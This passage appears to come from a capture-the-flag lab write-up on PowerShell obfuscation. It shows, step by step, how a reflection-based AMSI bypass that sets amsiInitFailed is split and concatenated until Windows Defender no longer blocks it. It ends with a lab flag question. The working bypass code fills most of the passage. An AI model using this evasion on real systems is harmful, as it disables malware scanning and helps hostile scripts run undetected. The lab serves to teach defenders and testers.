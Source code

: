 ```
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic')

Name                   : amsiInitFailed
MetadataToken          : 67114384
[snip]
...
[snip]
IsSecurityTransparent  : False
CustomAttributes       : {}
```

Success! Now we can append our next snippet to this clean version of the first and second snippet and execute it.

```
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').SetValue($null,$true)
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils' ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS M:\\>
```

This is interesting, there doesn’t seem to be any parameter values that would contribute to this alert? This must mean that Defender is alerting on the presence of each cmdlet together to determine it is a malicious snippet. To solve this problem we need to separate the cmdlet(s) from the rest of the snippet. This technique is known as separation of related code and is often seen along with concatenation, we will cover this concept further in task 8.

```
PS M:\\> $Value="SetValue"
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').$Value($null,$true)
PS M:\\>
```

Success! There are no more alerts so we now have a clean snippet that we can use! Submit this clean code snippet to http://MACHINE_IP and obtain the flag.

### Answer the questions below

* What flag is found after uploading a properly obfuscated snippet?

    ![task4-concat](./images/task4-concat.png)
    